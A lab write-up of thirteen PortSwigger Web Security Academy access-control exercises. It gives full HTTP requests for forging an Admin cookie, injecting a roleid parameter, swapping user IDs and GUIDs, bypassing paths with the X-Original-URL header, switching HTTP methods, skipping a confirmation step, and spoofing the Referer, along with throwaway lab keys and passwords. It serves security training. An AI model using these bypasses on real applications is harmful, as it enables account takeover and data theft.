# Access Control Vulnerabilities


- Access control is the application of constraints on who or what is authorized to perform actions or access resources. In the context of web applications, access control is dependent on authentication and session management:
	- **Authentication** confirms that the user is who they say they are.
	- **Session management** identifies which subsequent HTTP requests are being made by that same user.
	- **Access control** determines whether the user is allowed to carry out the action that they are attempting to perform.
- Broken access controls are common and often present a critical security vulnerability. Design and management of access controls is a complex and dynamic problem that applies business, organizational, and legal constraints to a technical implementation. Access control design decisions have to be made by humans so the potential for errors is high.

## Lab 1: Unprotected admin functionality



- To solve the lab we have to delete the user `carlos`.
- So i just try to look at `robots.txt` and i found,

```
User-agent: *
Disallow: /administrator-panel
```



- So we can go in this page delete the user `carlos` and solve the lab,



```http
GET /administrator-panel/delete?username=carlos HTTP/1.1
Host: 0ab500d003e965c580818a9b00050039.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab500d003e965c580818a9b00050039.web-security-academy.net/administrator-panel
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=qPY5IBPdN6VLb2HqlU538eZ407hst2GU
```



## Lab 2: Unprotected admin functionality with unpredictable



- To Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.
- So to find unpredicted path i visited the `view-sorce` of website and i found this js,
	- In which the path leaked so we go there and delete the user and we solve the lab,

```js
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-wd4zsz');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
```








## Lab 3: User role controlled by request parameter




- This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.
- Solve the lab by accessing the admin panel and using it to delete the user `carlos`.
- We can log in to our own account using the following credentials: `wiener:peter`,
- So to see cookie we have to see login req, here it is

```http
GET /my-account?id=wiener HTTP/1.1
Host: 0a7000d4037f65ad80b399c400510047.web-security-academy.net
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: https://0a7000d4037f65ad80b399c400510047.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: Admin=false; session=JR0YqIvOVYRdKXAwl6OkqxKfY7kUBmAx
```

- As we can see `Admin variable set to false` so if we make is `true` then we login as login,



- So now we have to do req to admin page with `true` flag and we will able to access `admin` page,

```http
GET /admin HTTP/1.1
Host: 0a7000d4037f65ad80b399c400510047.web-security-academy.net
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7000d4037f65ad80b399c400510047.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: Admin=true; session=JR0YqIvOVYRdKXAwl6OkqxKfY7kUBmAx
```



- And now we can delete `carlos` and lab will be solved,

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: 0a7000d4037f65ad80b399c400510047.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7000d4037f65ad80b399c400510047.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: Admin=true; session=JR0YqIvOVYRdKXAwl6OkqxKfY7kUBmAx
```



## Lab 4: User role can be modified in user profile



- we can log in to our own account using the following credentials: `wiener:peter`.



- Now, We try to use update email feature and capture its request,

```http
POST /my-account/change-email HTTP/1.1
Host: 0a09009403b0b40b81a476d5008600f3.web-security-academy.net
Connection: keep-alive
Content-Length: 27
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: text/plain;charset=UTF-8
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a09009403b0b40b81a476d5008600f3.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a09009403b0b40b81a476d5008600f3.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=DmyfyBF39LooQXPSNWWEJvY1utRZbbWU

{
"email":"hello@hello.com",
}
```

- Now we will access `/admin` and try to add `roleId=2` as said in description, 
- And we got admin panel access and after deleting the `carlos` user we will solve the lab

```http
POST /admin HTTP/1.1
Host: 0a09009403b0b40b81a476d5008600f3.web-security-academy.net
Connection: keep-alive
Content-Length: 27
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: text/plain;charset=UTF-8
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a09009403b0b40b81a476d5008600f3.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a09009403b0b40b81a476d5008600f3.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=DmyfyBF39LooQXPSNWWEJvY1utRZbbWU

{
"email":"hello@hello.com",
"roleid":2
}
```



```http
/admin/delete?username=carlos
```






## Lab 5: User ID controlled by request parameter



- This lab has a horizontal privilege escalation vulnerability on the user account page.
- To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.
- We can log in to our own account using the following credentials: `wiener:peter`.



- Here is the update email req,

```http
POST /my-account/change-email HTTP/1.1
Host: 0a15001603d47635811b8470003e00fd.web-security-academy.net
Connection: keep-alive
Content-Length: 61
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0a15001603d47635811b8470003e00fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a15001603d47635811b8470003e00fd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=Ajc2ZIV4rVnCqphGJYrhDCzNOgvdkvXN

email=hello%40hello.com&csrf=3qE6wFPDrUGWXfezJ4Q6pG1LIf4UyQdU
```

- I just changed the ID in url from `wiener` to `carlos` and got the API and by submitting it solve the lab,



```yml
API: O1JiYloiVdEaN7WXkUmmUT733yv2voem
```



## Lab 6: User ID controlled by request parameter, with unpredictable user IDs



- This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.
- To solve the lab, find the GUID for `carlos`, then submit his API key as the solution.
- You can log in to your own account using the following credentials: `wiener:peter`


- This time there is `GUID` so we have to find GUID of carlos and replace so we can steal API key,
- So here is my approach,
	- First, i found blog by written `carlos` and try to visit his profile
	- And there i found leaked GUID of carlos.





```yml
userId: bde1e1b2-ff21-4466-8613-50ee5a9db031
```

- And now, by swapping this GUID with wiener we got API and by submitting we solve the lab,



```yml
API Key: 1qPGbVCgrT3i4J5vf1FKfAtkyY6w6mVh
```



## Lab 7: User ID controlled by request parameter with data leakage in redirect



- This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.
- To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.
- You can log in to your own account using the following credentials: `wiener:peter`.



```http
GET /my-account?id=wiener HTTP/1.1
Host: 0afe003004a363fa80e59453007b00d4.web-security-academy.net
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: https://0afe003004a363fa80e59453007b00d4.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=QCmu5AFtYvvsFjEJ9dZRNxfvxnIwabhL
```

- By tweaking `id=carlos`, i got leaked info in response body before redirecting the page,
- And it API key leaked,



- By submitting this key we solve the lab,

```yml
API: OB9hCa6mX548iLM6dsEonZO7lJtPuIfW
```



## Lab 8: User ID controlled by request parameter with password disclosure 



- This lab has user account page that contains the current user's existing password, prefilled in a masked input.
- To solve the lab, retrieve the administrator's password, then use it to delete the user `carlos`.
- You can log in to your own account using the following credentials: `wiener:peter`.



- I tried to tweak the ID to `administrator` and i got its page, now we can simply see password by changing the value of input field in source code,





```yml
administator: 6pzztldhgjyxynwy5d3z
```

- Now we login using this and delete carlos,







## Lab 9: Insecure direct object references



- This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.
- Solve the lab by finding the password for the user `carlos`, and logging into their account.
- This is the chat functionality,



- I intercept the `view-transcript` req and here it is,
- It downloads `2.txt` containing some msgs,

```http
GET /download-transcript/2.txt HTTP/1.1
Host: 0a2900f104417d4681a620750044002a.web-security-academy.net
Connection: keep-alive
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2900f104417d4681a620750044002a.web-security-academy.net/chat
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=34dLOGbFSD6QeX82iwjNzB29t41EeC0k
```

- So i tried to change it with `1.txt` so previous conversation and this is static files in server so maybe it is there and i found file,
- It contains password of carlos,

```yml
CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is gddxknfya7etljq17h3t. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
```



- And by login with this `carlos:gddxknfya7etljq17h3t` we solve the lab,



## Lab 10: URL-based access control can be circumvented# URL-based access control can be circumvented



- This website has an unauthenticated admin panel at `/admin`, but a front-end system has been configured to block external access to that path.
- However, the back-end application is built on a framework that supports the `X-Original-URL` header.
- To solve the lab, access the admin panel and delete the user `carlos`.
- Direct access to `/admin` is got blocked,



- So as description we can try `X-Original-URL` with `/admin` path on `GET /` and it worked and we got `200 OK`,

```http
GET / HTTP/1.1
Host: 0a3d00e80361cfc281a91dad0043009f.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00e80361cfc281a91dad0043009f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
X-Original-URL: /admin
Cookie: session=2KZBhLQpUR1JzXtIVbkjNU6mj1vzBGe1
```



- Now we will delete carlos user so we have to put `/admin/delete` and put path in `GET /?username=carlos`,
	- IIS treats` X-Original-URL` as `path only`, not full URL
	- Many reverse proxies sanitize query params from custom headers Because passing user-controlled query strings via headers could cause **parameter injection**, **log poisoning**, or **routing confusion**.

```http
GET /?username=carlos HTTP/1.1
Host: 0a3d00e80361cfc281a91dad0043009f.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3d00e80361cfc281a91dad0043009f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
X-Original-URL: /admin/delete
Cookie: session=2KZBhLQpUR1JzXtIVbkjNU6mj1vzBGe1
```




## Lab 11: Method-based access control can be circumvented


- This lab implements access controls based partly on the HTTP method of requests.
- You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.
- To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to promote yourself to become an administrator.

- Login as `administrator:admin`



```http
GET /my-account?id=administrator HTTP/1.1
Host: 0a8200d103e2614582c3b05c00a800ca.web-security-academy.net
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: https://0a8200d103e2614582c3b05c00a800ca.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=JISTQTv1fu6p92Y57OUD3BazVZBoueuE
```

- In `Admin Panel` there is one feature called ==Upgrade or Downgrade user== to admin and here is the req of it,



```http
POST /admin-roles HTTP/1.1
Host: 0a8200d103e2614582c3b05c00a800ca.web-security-academy.net
Connection: keep-alive
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0a8200d103e2614582c3b05c00a800ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8200d103e2614582c3b05c00a800ca.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=KaR1ZqDShj7H7ZzkKXkRdjRMuMjTBDeK

username=carlos&action=upgrade
```

- Our aim to login as wiener with this admin privileges without getting upgraded so now we will proceed,
- First we have to open incognito/private windows to login with another creds of wiener,
- So we login using that and copy cookie of this user,

```yml
8nQDBnAR7nxOil95r1ARNLF0ECNDIK6M
```



- Replace this cookie with `/admin-roles` req endpoint cookie and ==try to upgrade carlos users using wiener's cookie==, but it says `401 unauthorized` 



- Now we try `XPOST` instead of `POST` and toggle the request to `GET` it worked and user will promoted,



- Now to solve the lab, we can put out username which is `0xb14cky` and after that we promoted to admin privileges and solve the lab,

```http
GET /admin-roles?username=0xb14cky&action=upgrade HTTP/1.1
```





>[!summary]
>The lab is vulnerable because the server blocks only `POST`, so using an unknown method like `POSTX` bypasses the check and still triggers the admin delete action.
>Because HTTP servers don’t reject unknown verbs — the HTTP/1.1 RFC explicitly requires them to accept any method token. `"Method names are case-sensitive tokens. Servers MUST be able to handle unknown methods."`

## Lab 12: Multi-step process with no access control on one step



- This lab has an admin panel with a flawed multi-step process for changing a user's role.
- You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.
- To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to promote yourself to become an administrator.
- We logged in as admin, 



- Here is user promotion request,

```http
POST /admin-roles HTTP/1.1
Host: 0a0b001d0376ec1f819e666000d700a1.web-security-academy.net
Connection: keep-alive
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0a0b001d0376ec1f819e666000d700a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0b001d0376ec1f819e666000d700a1.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=iBQWLMIZ6Oa4opn17rkNuMAb31kIzrbk

username=wiener&action=upgrade
```

- There is one intermediate confirmation page so we have to bypass that,
- Here is req of this,



```http
POST /admin-roles HTTP/1.1
Host: 0a0b001d0376ec1f819e666000d700a1.web-security-academy.net
Connection: keep-alive
Content-Length: 45
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://0a0b001d0376ec1f819e666000d700a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0b001d0376ec1f819e666000d700a1.web-security-academy.net/admin-roles
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=iBQWLMIZ6Oa4opn17rkNuMAb31kIzrbk

action=upgrade&confirmed=true&username=wiener
```

- We simply again replace cookie of wiener with previous one and by send the req we solve the lab,
- There is one extra meter added which is `confirmed=true`



```
j93UDgIGL0w1aNHILJdm6yKYyGnYMXcm
```

- Cookie replaced, and by sending we solved the lab,

```http
Cookie: session=j93UDgIGL0w1aNHILJdm6yKYyGnYMXcm
```




## Lab 13: Referer-based access control



- This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.
- To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to promote yourself to become an administrator.



- Here is the  promotion req,

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/1.1
Host: 0a23006b03751b2f82317e77003700cf.web-security-academy.net
Connection: keep-alive
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a23006b03751b2f82317e77003700cf.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=eTKyIURujXUmmlLuCGQOI3JdlsTHCuBW
```

- Now we login as wiener in private window and grep his cookies,



```yml
w6lav5K5TaPMf70tzPfAMt9M8QPZMsRx
```

- Now we try to replace this in previous `/admin-roles/`, and we remove the 

```http
Referer: https://0a23006b03751b2f82317e77003700cf.web-security-academy.net/admin
```

- we got `401 unauthorized`,



- So after changing the username to `wiener` and adding that Referer back and send this request will solve the lab,

```http
GET /admin-roles?username=wiener&action=upgrad
```



